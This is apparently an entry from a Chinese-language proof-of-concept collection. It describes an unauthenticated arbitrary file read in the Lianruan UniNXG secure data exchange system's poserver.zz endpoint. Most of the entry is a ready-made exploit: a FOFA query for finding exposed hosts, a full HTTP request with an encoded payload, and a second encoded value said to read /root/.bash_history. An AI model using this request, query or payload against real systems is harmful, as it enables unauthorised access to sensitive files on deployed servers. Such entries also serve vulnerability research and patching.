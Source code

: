 ## 联软安渡UniNXG安全数据交换系统poserver.zz存在任意文件读取漏洞

联软安渡UniNXG安全数据交换系统/UniExServices/poserver.zz存在任意文件读取漏洞，未经身份验证的攻击者可利用此漏洞构造加密的恶意请求读取系统内部敏感文件。

## fofa
```
body="深圳市联软科技股份有限公司"
```

## poc
```
GET /UniExServices/poserver.zz?pgop=opendiskdoc&id=KmcgY3MtK3IpLSRfOXE9YmpkL2orbBdrKztnJCltInIrbDhyP24rOzhjPHI= HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close

```

读取/root/.bash_history  历史命令
KmcgY3MtJm0lcmUsFl85ZhVmL3E4bSZ3amQvaitsF2srO2ckKW0icitsOHI/bis7OGM8cg==
